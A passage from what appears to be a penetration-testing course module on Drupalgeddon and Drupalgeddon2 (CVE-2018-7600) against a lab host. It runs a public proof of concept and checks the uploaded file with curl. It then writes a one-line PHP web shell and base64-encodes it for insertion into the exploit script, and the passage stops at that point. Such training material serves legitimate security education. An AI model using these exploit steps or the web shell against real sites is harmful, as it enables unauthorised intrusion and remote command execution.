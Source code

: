 Now let's see if we can log in as an admin. We can! Now from here, we could obtain a shell through the various means discussed previously in this section.

![](https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png)

We could also use the [exploit/multi/http/drupal\_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) Metasploit module to exploit this.

* * *

## Drupalgeddon2

We can use [this](https://www.exploit-db.com/exploits/44448) PoC to confirm this vulnerability.

```shell
python3 drupalgeddon2.py

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt

```

We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.

```shell
curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)

```

Now let's modify the script to gain remote code execution by uploading a malicious PHP file.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>

```

```shell
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K

```

Next, let's replace the `echo` command in the exploit script with a command to write out our malicious PHP script.
